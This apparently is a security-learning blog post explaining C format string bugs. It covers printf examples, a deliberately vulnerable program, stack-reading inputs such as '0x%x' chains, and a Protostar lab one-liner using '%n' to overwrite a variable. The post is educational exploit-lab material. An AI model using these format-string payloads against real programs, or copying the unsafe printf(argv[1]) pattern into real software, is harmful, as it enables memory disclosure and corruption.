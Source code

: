 ```yaml
---
layout: post
title: "format string bug"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /format-string-bug/
---
```


---
layout: post
title: "format string bug"
date: 2024-06-18
categories: binary-exploitation
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /format-string-bug/
---

# Format String Bug

Some notes on what a format string bug is and how it looks like in real life.

## Overview

Format String bug appears in programs written in C, which means this bug is applicable to all operating systems that have a C compiler, or in other words - most of OSes.

## What is Format String?

> **printf format string** refers to a control parameter used by a class of [functions](https://en.wikipedia.org/wiki/Function\_\(computer\_science\)) in the input/output libraries of [C](https://en.wikipedia.org/wiki/C\_\(programming\_language\)) and many other [programming languages](https://en.wikipedia.org/wiki/Programming\_languages). The string is written in a simple [template language](https://en.wikipedia.org/wiki/Template\_language): characters are usually copied literally into the function's output, but **format specifiers**, which start with a [`%`](https://en.wikipedia.org/wiki/Percent\_sign) character, indicate the location and method to translate a piece of data (such as a number) to characters.\
> [\
> https://en.wikipedia.org/wiki/Printf\_format\_string](https://en.wikipedia.org/wiki/Printf\_format\_string)

In other words, format string allows the programmer to specify how a certain value, say a floating-point number such as money savings, should be printed to the screen.

Let's look at the below code example, where the `savings` variable is defined as a floating value of `345.82`, which is printed to the screen with `printf`, using the format string `Savings: $%f`:

{% hint style="info" %}
The `%f` in the format string tells the `printf()` to print the value of `savings` as a floating-point value.
{% endhint %}

{% code title="fmt-00.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        double savings = 345.82;
        
        // The first argument is the format string.
        // It tells printf to print the value of savings as a floating value.
        printf("Savings: $%f", savings);
        return 0;
}
```
{% endcode %}

Let's compile, run the code and observe the result:

```
gcc .\fmt-00.c -o fmt-00.exe; .\fmt-00.exe
```

...we can see that the `savings` value was printed with 6 decimal places:

![](<../../../.gitbook/assets/image (1076).png>)

However, `$345.820000` is not the precision we need when dealing with money, so it would look better if the value only had 2 decimal places, such as `$345.82`. With the help of format string `Savings: $%.2f`, we can achieve exactly that:

![](<../../../.gitbook/assets/image (1077).png>)

## What is Format String Bug?

Programs become vulnerable to the format string bug when user supplied data is included in the format string the program uses to display the data when in print functions such as (not limited to):

```c
printf
fprintf
sprintf
snprintf
...
```

## Memory Read

Format string vulnerabilities make it possible to read stack memory of the vulnerable program.

Let's look at the sample code provided below, that takes in the user supplied argument 1 and uses it in inside the function `printf`, which means that the user's supplied string is used as a format string for the <mark style="color:blue;">`printf`</mark> function:

{% code title="fmt.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        if( argc != 2 )
        {
                printf("Error - supply a format string please\n");
                return 1;
        }

        printf( argv[1] );
        printf( "\n" );

        return 0;
}
```
{% endcode %}

Let's compile and run the program without feeding it any strings first:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe
```

![](<../../../.gitbook/assets/image (1078).png>)

Let's now supply a string format, say `Testing: 0x%x`:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe "Testing: 0x%x"
```

![](<../../../.gitbook/assets/image (1081).png>)

Considering the fact that the format string is supplied, but the corresponding variable is not (which would be provided in the program written by a programmer, however in our case we are supplying the format string to the program via a commandline argument without associated variables), the program simply **starts reading values from the stack memory**. Note that there is nothing preventing us from reading even multiple values from the stack too:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe "Reading stack memory: 0x%x 0x%x 0x%x 0x%x"
```

![](<../../../.gitbook/assets/image (1080).png>)

The above example illustrates how it may be possible to abuse this bug to read program's stack memory, which may reveal some sensitive information, such as authentication passwords.

## Memory Write

Format string vulnerabilities make it possible to write to arbitrary memory locations inside the vulnerable program.

To see this in action, we're going to use the following purposely vulnerable code from:

{% embed url="https://exploit.education/protostar/format-one" %}

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

```
./format1 "` python -c "print 'AAAA' + 'x38\x96\x04\x08' + 'BBBBBBBBBBBBBBBBBBBBBB' + '%x '*128 " `"; echo
```

### Exploit

```
./format1 "` python -c "print 'AAAA' + 'x38\x96\x04\x08' + 'BBBBBBBBBBBBBBBBBBBBBB' + '%x '*127 + '%n ' " `"; echo
```

{% hint style="info" %}
It's possible to abuse format bugs to execute shellcode, but I could not get my dev environment setup to reproduce the exploitation examples found in the book and online, so these notes are parked for the time being.
{% endhint %}

## References

{% embed url="https://www.wiley.com/en-gb/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238" %}

[https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)
@spotheplanet
